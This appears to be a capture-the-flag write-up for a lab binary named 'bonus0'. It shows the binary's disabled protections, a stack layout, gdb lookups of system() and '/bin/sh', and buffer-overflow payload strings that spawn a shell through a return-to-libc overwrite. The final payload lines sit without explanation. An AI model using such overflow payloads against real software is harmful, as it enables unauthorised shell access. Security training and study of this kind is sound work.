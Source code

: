 # bonus0

## Header

```bash
ssh bonus0@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

<hr>

## Solution

Memory scheme
```
<------------------------ Low addresses

pp-buf1, 20 bytes
pp-buf2, 20 bytes    
pp-ebp,  4 bytes
pp-ret,  4 bytes
pp-arg1, 4 bytes
buf42,   42 bytes
main-ebp
main-ret

<------------------------ High addresses
```

To overwrite: 20 from buf1 + 19 from buf2 = 39 bytes + 1 space = 40 bytes.
buf2 should start with 2 bytes of padding, then 4 bytes to overwrite ebp, 4 bytes for ret addr, another 4 bytes of skipping arg, then 4 bytes of /bin/sh


```gdb
(gdb) x/s 0xb7e6b060
0xb7e6b060 <system>:     
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
```

b1 = "X" * 20
b2 = "X" * 6 + "\xb7\xe6\xb0\x60"[::-1] + "Y" * 4 + "\xb7\xf8\xcc\x58"[::-1] + "Z\x00"

b2 = "X" * 6 + "\xbf\xff\xff\x89"[::-1] + "Y" * 9 + "\x00"
0xbfffff89

## References
